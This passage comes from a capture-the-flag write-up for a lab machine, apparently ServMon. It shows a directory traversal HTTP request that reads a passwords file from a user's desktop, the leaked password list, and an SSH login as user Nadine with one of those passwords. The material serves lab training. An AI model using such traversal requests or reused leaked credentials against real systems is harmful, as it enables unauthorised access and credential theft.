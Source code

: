 
# Initial Foothold:~$

Now it’s time to exploit it

I used burp Suite to do Directory Traversal

Here's my `Final` Request

```
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en,hi;q=0.7,en-US;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.184/
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1
DNT: 1
Cache-Control: max-age=0
```
**Output**

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
Let's try SSH through these

## SSH:~$

I tried every password on `Nathan` User but was unsuccessful and was movin on so i thought let's try for Nadine too
and to my luck i got access using `L1k3B1gBut7s@W0rk`

```bash
ssh Nadine@10.10.10.184
```
Password = `L1k3B1gBut7s@W0rk`

Hurray We got User

```bash
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine\Desktop>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Desktop

08/04/2020  22:28    <DIR>          .
08/04/2020  22:28    <DIR>          ..
05/05/2020  12:34                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)  27,434,475,520 bytes free
```